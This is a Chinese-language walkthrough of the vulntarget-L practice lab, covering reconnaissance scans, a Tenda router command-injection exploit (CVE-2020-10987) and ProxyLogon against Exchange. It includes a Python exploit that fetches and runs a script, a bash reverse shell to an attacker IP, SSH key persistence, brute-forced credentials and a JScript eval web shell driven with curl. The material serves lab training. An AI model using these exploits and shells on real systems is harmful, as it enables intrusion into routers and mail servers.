# Vulntarget-l 综合靶场

<div style="text-align: right;">

date: "2023-09-06"

</div>

参考文章：

1. [vulntarget漏洞靶场系列（十二）— vulntarget-L](https://mp.weixin.qq.com/s/tXSjXIDG1mLpVxzZui31Nw)
2. [浅谈TOTOLink 多个设备CVE-2022-25084 远程命令执行漏洞成因](https://zone.huoxian.cn/d/2676-totolink-cve-2022-25084)
3. [CVE-2023-25395 复现报告](https://bbs.zkaq.cn/t/30789.html)
4. [BloodHound: Six Degrees of Domain Admin — BloodHound 4.3.1 documentation](https://bloodhound.readthedocs.io/)
5. [域持久性：Shadow Credentials - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/331955.html)

## 靶场搭建
这个靶场或多或少还是有一点问题的，我们跟着文档来进行还原，首先对于外网路由器，该路由器有两个页面，一个腾达，一个TOTOLINK，如果外网NAT和作者配置的同一网段，估计不需要更改，我使用的自己的NAT网段，首先将路由器恢复快照，然后输入

```shell
sudo iptables -t nat -A PREROUTING  -p tcp -d 192.168.36.172 --dport 60080 -j DNAT --to-destination 192.168.6.11:80
sudo iptables -t nat -A POSTROUTING -p tcp -s 192.168.6.11 --sport 80 -j SNAT --to-source 192.168.36.172
sudo iptables-save
```

将其中的192.168.36.172改成你自己的该路由器的外网地址即可，我在这里是直接新添加了一个NAT网卡。VMnet0就是他之前的NAT，我新增了自己NAT，所以我的靶机网段在192.168.36.x



内网跟着配置同网段即可，途中遇到一次此工作站和主域间的信任关系失败，进入Exchange服务器的Powershell中输入下面的命令，然后输入密码，重启即可。

```shell
Reset-ComputerMachinePassword -Server “DC” -Credential vulntarget\Administrator
```

## 网络拓扑图



## 外网打点

#### 外网打点-探测目标IP

```bash
# nmap -sP 192.168.36.1/24
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 13:21 中国标准时间
Nmap scan report for 192.168.36.1
Host is up.
Nmap scan report for 192.168.36.172
Host is up (0.0010s latency).
MAC Address: 00:0C:29:7D:6A:70 (VMware)
Nmap scan report for 192.168.36.254
Host is up (0.00s latency).
MAC Address: 00:50:56:EB:32:74 (VMware)
Nmap done: 256 IP addresses (3 hosts up) scanned in 16.30 seconds
```

#### 外网打点-全端口扫描

```bash
# nmap -p- -A --min-rate 1000 192.168.36.172
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 13:57 中国标准时间
NSOCK ERROR [0.2780s] ssl_init_helper(): OpenSSL legacy provider failed to load.

Nmap scan report for 192.168.36.172
Host is up (0.000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
8080/tcp  open  http    lighttpd 1.4.20
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: lighttpd/1.4.20
60080/tcp open  http    Tenda WAP http admin
|_http-title: Did not follow redirect to http://192.168.36.172:60080/main.html
MAC Address: 00:0C:29:7D:6A:70 (VMware)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/5%OT=8080%CT=1%CU=36398%PV=Y%DS=1%DC=D%G=Y%M=000C29%
OS:TM=64F6C367%P=i686-pc-windows-windows)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z
OS:%II=I%TS=U)OPS(O1=M5B4%O2=M5B4%O3=M5B4%O4=M5B4%O5=M5B4%O6=M5B4)WIN(W1=FA
OS:F0%W2=FAF0%W3=FAF0%W4=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:B4%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: Device: WAP

TRACEROUTE
HOP RTT     ADDRESS
1   0.07 ms 192.168.36.172

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.17 seconds
```

扫描出8080端口如下所示，尝试利用CVE-2022-25084和CVE-2023-25395失败。



60080端口如下所示



#### 漏洞利用-CVE-2020-10987
查找腾达版本发现为AC15，漏洞倒是很多，但是没有几个公开的，这里使用CVE-2020-10987，根据给出的POC，发现漏洞利用点为：

```
http://192.168.36.172:60080/goform/setUsbUnload/?deviceName=;%20wget%20http://hgycbi.dnslog.cn
```



exp利用脚本如下：

```python
from pwn import *
import requests

context.log_level = 'debug'
context.arch = "arm"
context.terminal = ['tmux', 'splitw', '-h']

# cmd = b"wget%20`nc -e /bin/bash 192.168.36.131 2333`"
cmd  = b'wget http://192.168.36.131:8000/1.sh -O /t1st.sh;'
cmd += b'chmod 777 /t1st.sh;'
cmd += b'/t1st.sh;'

assert (len(cmd) < 255)

url = b"http://192.168.36.172:60080/login/Auth"
payload = "http://192.168.36.172:60080/goform/setUsbUnload/?deviceName=;%20" + cmd.decode()

header = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0",
    "Accept-Language": "zh,en-US;q=0.7,en;q=0.3",
    "Accept-Encoding": "gzip, deflate",
    "Cache-Control": "max-age=0",
    "Host": "192.168.36.172:60080",
    "Proxy-Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1",
}

data = {
    "username": "admin",
    "password": "admin",
}

s = requests.session()
login = s.get(url=url, headers=header)
r = s.get(url=payload, headers=header)
if r.status_code == 200:
    print(r.text)
else:
    print("404 not found")

```
Kali启动一个Web服务，让受害机主动下载攻击机上的1.sh并执行，1.sh内容如下

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.36.131/2333 0>&1
```



#### 写入ssh公钥

```shell
mkdir /root/.ssh/
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCp0sxPQZ6brijhvWNbKdApNNSvzVHV3U29lEfgAMLO6x9bEcDQvrsUOWWDuT9HYr7HNTmV6cq2lXmDJ4xxpckkPZ5/4wby09k5uKk6tl5RU/eiaTH+57tPOuVZ6Kcy7mRY33G/rRPfZ63TiQDTwz6Z4pLJfiaUihWf/URQevhp8KAfNGPJGyI6PmXv/YFqU8QRZvW3w+JZiKYHvnnQBeBRtc3Q0CTzsquYGC5TALBLumsQuLCvb9v7h9RyncF+J3NfPqrnUFUZ06lfLsuc7XQZWysTo2AQpWa5suOp+QoJCBUeHNrJEUu4fMKeGIaGk8qqlrdWmPcchtRc5/F/z+VQ6xEkyTwN/wgjsucpTjyiXE9m3nDEgZOweOEN5H7YMi1uaYbLrV7WqwcEUp9eZwgv1F5hGWfr13sQHFMWiCqir29hX8SGuCCIa1xG/kDtimLbKM3u4PZf7lGZU1VtA1UAfuD37evIhwHZAqNodFvtSf+4tCcxdkEdn0CKm29IiiM= me@DESKTOP-431ILFL" >> ~/.ssh/authorized_keys
cat /root/.ssh/authorized_keys
```


发现这个服务器没有ssh，直接给它下一个

```shell
sudo apt-get update
sudo apt-get install openssh-server
```



连接成功，找了一圈，没发现靶机里存在flag。

## 内网渗透

#### 内网渗透-172.18.10.100/24探测

```shell
root@router:/tmp# ./fscan -h 172.18.10.100/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
(icmp) Target 172.18.10.100   is alive
(icmp) Target 172.18.10.102   is alive
(icmp) Target 172.18.10.101   is alive
[*] Icmp alive hosts len is: 3
172.18.10.102:8288 open
172.18.10.102:808 open
172.18.10.102:8172 open
172.18.10.101:445 open
172.18.10.102:445 open
172.18.10.101:139 open
172.18.10.102:443 open
172.18.10.102:139 open
172.18.10.101:135 open
172.18.10.101:80 open
172.18.10.102:80 open
172.18.10.100:22 open
172.18.10.100:8080 open
172.18.10.102:135 open
172.18.10.102:81 open
172.18.10.101:88 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo:
[*]172.18.10.101
   [->]DC
   [->]172.18.10.101
[*] WebTitle: http://172.18.10.102      code:403 len:0      title:None
[*] NetInfo:
[*]172.18.10.102
   [->]exchange
   [->]172.18.10.102
[*] NetBios: 172.18.10.101   [+]DC DC.vulntarget.com             Windows Server 2016 Standard 14393 
[*] NetBios: 172.18.10.102   exchange.vulntarget.com             Windows Server 2016 Standard 14393 
[*] 172.18.10.101  (Windows Server 2016 Standard 14393)
[*] WebTitle: http://172.18.10.101      code:200 len:703    title:IIS Windows Server
[+] http://172.18.10.101 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle: https://172.18.10.102     code:302 len:0      title:None 跳转url: https://172.18.10.102/owa/
[*] WebTitle: http://172.18.10.102:81   code:403 len:1157   title:403 - 禁止访问: 访问被拒绝。
[*] WebTitle: https://172.18.10.102/owa/auth/logon.aspx?url=https%3a%2f%2f172.18.10.102%2fowa%2f&reason=0 code:200 len:28244  title:Outlook
[*] WebTitle: https://172.18.10.102:8172 code:404 len:0      title:None
[*] WebTitle: http://172.18.10.100:8080 code:200 len:797    title:None
已完成 15/16 [-] ssh 172.18.10.100:22 root qwe123 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 15/16 [-] ssh 172.18.10.100:22 root system ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 15/16 [-] ssh 172.18.10.100:22 admin admin@2019 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 15/16 [-] ssh 172.18.10.100:22 admin Aa12345. ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 16/16
[*] 扫描结束,耗时: 4m38.836702107s

```

```shell
root@router:/tmp/nacs_linux_amd64# ./nacs -h 172.18.10.1/24
 _  _     ___     ___     ___   
| \| |   /   \   / __|   / __|  
| .  |   | - |  | (__    \__ \
|_|\_|   |_|_|   \___|   |___/  
             Version: 0.0.3
[17:20:26] [INFO] Start to probe alive machines
[17:20:26] [*] Target 172.18.10.100 is alive
[17:20:26] [*] Target 172.18.10.101 is alive
[17:20:26] [*] Target 172.18.10.102 is alive
[17:20:29] [INFO] There are total of 256 hosts, and 3 are surviving
[17:20:29] [WARNING] Too few surviving hosts
[17:20:29] [INFO] Start to discover the ports
[17:20:29] [*] [TCP/SMTP] smtp://172.18.10.102:587 [220\x20exchange.vulntarget.com\x20Microsoft\x20ESMTP\x20MAIL\x20Service\x20ready\x20at\x20Tue,\x205\x20Sep\x202023\x2017:20:27\x20+0800\x0d\x0a]
[17:20:29] [*] [TCP/SSH] ssh://172.18.10.100:22 [SSH-2.0-OpenSSH_7.6p1\x20Ubuntu-4ubuntu0.7]
[17:20:29] [*] [TCP/SMTP] smtp://172.18.10.102:25 [220\x20exchange.vulntarget.com\x20Microsoft\x20ESMTP\x20MAIL\x20Service\x20ready\x20at\x20Tue,\x205\x20Sep\x202023\x2017:20:27\x20+0800\x0d\x0a]
[17:20:31] [-] [TCP/unknown] 172.18.10.102:139 [\x83\x00\x00\x01\x8f]
[17:20:31] [*] [TCP/LDAP] ldap://172.18.10.101:389 [0\x84\x00\x00\x00\x10\x02\x01\x01a\x84\x00\x00\x00\x07\x0a]
[17:20:31] [-] [TCP/unknown] 172.18.10.101:139 [\x83\x00\x00\x01\x8f]
[17:20:31] [-] [TCP/unknown] 172.18.10.102:808 []
[17:20:31] [*] [TCP/HTTP] [403] [IIS] http://172.18.10.102:80 [None]
[17:20:31] [*] [TCP/HTTP] [200] [IIS] http://172.18.10.101:80 [IIS Windows Server]
[17:20:31] [*] [TCP/HTTP] [403] [ASP] [IIS] http://172.18.10.102:81 [403 - 禁止访问: 访问被拒绝。]
[17:20:32] [*] [TLS/HTTPS] https://172.18.10.102:443 [None]
[17:20:34] [*] [TCP/SMB] smb://172.18.10.102:445 [Version:10.0.14393||DNSComputer:exchange.vulntarget.com||TargetName:VULNTARGET||NetbiosComputer:EXCHANGE]
[17:20:34] [-] [TCP/unknown] 172.18.10.101:88 []
[17:20:34] [*] [TCP/SMB] smb://172.18.10.101:445 [Version:10.0.14393||DNSComputer:DC.vulntarget.com||TargetName:VULNTARGET||NetbiosComputer:DC]
[17:20:34] [*] [TCP/HTTP] [200] http://172.18.10.100:8080 [None]
[17:20:35] [*] [UDP/NBNS] nbns://172.18.10.102:137 [VULNTARGET\EXCHANGE]
[17:20:35] [*] [UDP/NBNS] [Domain Controllers] nbns://172.18.10.101:137 [VULNTARGET\DC]
[17:20:57] [*] [TCP/DceRpc] dcerpc://172.18.10.102:135 [exchange||172.18.10.102]
[17:20:57] [*] [TCP/DceRpc] dcerpc://172.18.10.101:135 [DC||172.18.10.101]
[17:21:06] [-] [TCP/unknown] 172.18.10.101:53 []
[17:21:06] [INFO] A total of 20 targets, the rule base hits 15 targets
[17:21:06] [INFO] Start to send pocs to web services (xray type)
[17:21:06] [INFO] Load 397 xray poc(s) 
[17:22:52] [+] http://172.18.10.101:80 poc-yaml-active-directory-certsrv-detect 
[17:29:50] [INFO] Start to process nonweb services
[17:29:50] [INFO] [protocol] ssh 172.18.10.100
[17:32:18] [INFO] [port] netbios 172.18.10.102:139
[17:32:18] [+] [*] 172.18.10.102        VULNTARGET\EXCHANGE          Windows Server 2016 Standard 14393
-------------------------------------------
VULNTARGET      G Domain Name
EXCHANGE        U Server Service
EXCHANGE        U Workstation Service
-------------------------------------------
Windows Server 2016 Standard 14393|Windows Server 2016 Standard 6.3
NetBIOS domain name   : VULNTARGET
NetBIOS computer name : EXCHANGE
DNS domain name       : vulntarget.com
DNS computer name     : exchange.vulntarget.com
DNS tree name         : vulntarget.com

[17:32:18] [INFO] [port] netbios 172.18.10.101:139
[17:32:18] [+] [*] 172.18.10.101  [+]DC VULNTARGET\DC                Windows Server 2016 Standard 14393
-------------------------------------------
VULNTARGET      G Domain Name
DC              U Workstation Service
VULNTARGET      G Domain Controllers
DC              U Server Service
VULNTARGET      U Domain Master Browser
-------------------------------------------
Windows Server 2016 Standard 14393|Windows Server 2016 Standard 6.3
NetBIOS domain name   : VULNTARGET
NetBIOS computer name : DC
DNS domain name       : vulntarget.com
DNS computer name     : DC.vulntarget.com
DNS tree name         : vulntarget.com

[17:32:18] [INFO] [protocol] smb-CVE-2020-0796 172.18.10.102:445
[17:32:18] [INFO] [protocol] smb-17010 172.18.10.102:445
[17:32:18] [INFO] [protocol] smb-brute 172.18.10.102:445
[17:32:18] [INFO] [protocol] smb-CVE-2020-0796 172.18.10.101:445
[17:32:18] [INFO] [protocol] smb-17010 172.18.10.101:445
[17:32:18] [+] [*] 172.18.10.101  (Windows Server 2016 Standard 14393)
[17:32:18] [INFO] [protocol] smb-brute 172.18.10.101:445
[17:32:19] [+] [+] SMB:172.18.10.101:445:administrator Admin@123
[17:32:19] [INFO] [port] netbios 172.18.10.102:135
[17:32:19] [+] NetInfo:
[*]172.18.10.102
   [->]exchange
   [->]172.18.10.102
[17:32:19] [INFO] [port] netbios 172.18.10.101:135
[17:32:19] [+] NetInfo:
[*]172.18.10.101
   [->]DC
   [->]172.18.10.101
[17:32:19] [INFO] Task finish, consumption of time: 11m52.995127104s

```
域控DC是密码过期了需要改密码，随便改了一个，原本靶场是不存在弱口令的，忽略这个DC的弱口令，看看其他的漏洞。发现前面fscan扫出来一个owa，尝试访问。



右键查看版本发现版本为15.1



#### 内网渗透-ProxyLogon

```shell
➜  exprolog-main proxychains4 -q python3 exprolog.py -t 172.18.10.102 -e administrator@vulntarget.com
    ______     ____             __           
   / ____/  __/ __ \_________  / /___  ____ _
  / __/ | |/_/ /_/ / ___/ __ \/ / __ \/ __ `/
 / /____>  </ ____/ /  / /_/ / / /_/ / /_/ / 
/_____/_/|_/_/   /_/   \____/_/\____/\__, /  
                                    /____/   

[#] Trying to get target FQDN
[+] Got target FQDN: EXCHANGE
[#] Trying to get target LegacyDN and ServerID
[+] Got target LegacyDN: /o=vulntarget/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=29bd31dad9c241ff887bb24476d86a6e-Administrator
[+] Got target ServerID: b200f0c8-4f5f-4aa4-9a65-600573ece8f9
[#] Trying to get target user SID
[+] Got target administrator SID: S-1-5-21-1172579584-1949262653-3015909612-500
[#] Trying to get target administrator cookie sessions
[+] Got target administrator session ID: 15978f42-ee3c-4a7f-a48c-059af8ebc49f
[+] Got target administrator canary session ID: _o-GLGX8Y0C09af_tIOInNQOH4CJr9sITC1aT10IIry8rsII7hnc_CgcReb9s65kuTG69zGVNTU.
[#] Trying to get target OABVirtualDirectory ID
[+] Got target AOB ID: 55cd2b49-add9-4e66-951f-7dbcb95ca47e
[#] Trying to inject OABVirtualDirectory Shell
[+] Shell are injected
[#] Verifying OABVirtualDirectory Shell
[+] AOB Shell verified
[+] AOB Shell payload: http:\/\/ooo\/#%3Cscript%20language=%22JScript%22%20runat=%22server%22%3Efunction%20Page_Load()%7Beval(Request%5B%22request%22%5D,%22unsafe%22);%7D%3C\/script%3E
[#] Trying to export OABVirtualDirectory Shell
[+] Shell are exported
[*] CURL Request: 
curl --request POST --url https://172.18.10.102/owa/auth/psck5.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
[*] DONE

```

```shell
➜  exprolog-main proxychains4 -q curl --request POST --url https://172.18.10.102/owa/auth/psck5.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k

用户信息
----------------

用户名              SID     
=================== ========
nt authority\system S-1-5-18


组信息
-----------------

组名                                   类型   SID                                                            属性                            
====================================== ====== ============================================================== ================================
Mandatory Label\System Mandatory Level 标签   S-1-16-16384                                                                                   
Everyone                               已知组 S-1-1-0                                                        必需的组, 启用于默认, 启用的组  
BUILTIN\Users                          别名   S-1-5-32-545                                                   必需的组, 启用于默认, 启用的组  
NT AUTHORITY\SERVICE                   已知组 S-1-5-6                                                        必需的组, 启用于默认, 启用的组  
CONSOLE LOGON                          已知组 S-1-2-1                                                        必需的组, 启用于默认, 启用的组  
NT AUTHORITY\Authenticated Users       已知组 S-1-5-11                                                       必需的组, 启用于默认, 启用的组  
NT AUTHORITY\This Organization         已知组 S-1-5-15                                                       必需的组, 启用于默认, 启用的组  
BUILTIN\IIS_IUSRS                      别名   S-1-5-32-568                                                   必需的组, 启用于默认, 启用的组  
LOCAL                                  已知组 S-1-2-0                                                        必需的组, 启用于默认, 启用的组  
IIS APPPOOL\MSExchangeOWAAppPool       已知组 S-1-5-82-152498943-3243790313-2919704386-3842957549-2616840987 必需的组, 启用于默认, 启用的组  
BUILTIN\Administrators                 别名   S-1-5-32-544                                                   启用于默认, 启用的组, 组的所有者


特权信息
----------------------

特权名                        描述                 状态  
============================= ==================== ======
SeAssignPrimaryTokenPrivilege 替换一个进程级令牌   已禁用
SeIncreaseQuotaPrivilege      为进程调整内存配额   已禁用
